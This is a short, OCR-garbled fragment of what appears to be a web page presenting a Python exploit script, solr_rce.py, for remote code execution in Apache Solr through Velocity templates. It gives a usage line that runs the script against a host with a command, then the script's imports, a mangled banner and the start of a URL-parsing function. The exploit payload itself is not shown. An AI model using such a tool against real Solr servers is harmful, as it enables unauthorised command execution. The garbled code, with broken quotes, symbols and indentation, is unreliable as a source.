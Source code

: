 > python solr_rce.py http://www.0-sec.org:8983 command

![image](../img/500f3fa2ef75799bbfe9137f0912e237.png)

```
#coding=utf-8

import requests

import sys

import json

banner = ‘’’

_             _____       _        _____   _____ ______

/\                    | |           / ****|     | |      |  __ \ / ****|  ****|

/  \   _ __   __ _  ***| |**   ___  | (***   ___ | |* __  | |**) | |    | |**

/ /\ \ | ’* \ / *` |/ **| ’* \ / _ \  _** \ / _ | | '__| |  _  /| |    |  __|

/ ____ | |*) | (*| | (__| | | |  __/  ****) | (*) | | |    | | \ | |****| |****

/*/    _\ .**/ _*,*|_**|*| |*|_**| |*****/ _**/|*|*|    |_|  _\*****|****_*|

| |

|*|

Apache Solr Velocity模板远程代码执行

2019-10-30  17:30

python By Jas502n

>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>

‘’’

print banner

def get_code_name(url):

if url[-1] == ‘/’:

url = url[:-1].split(’\n’)[0]
```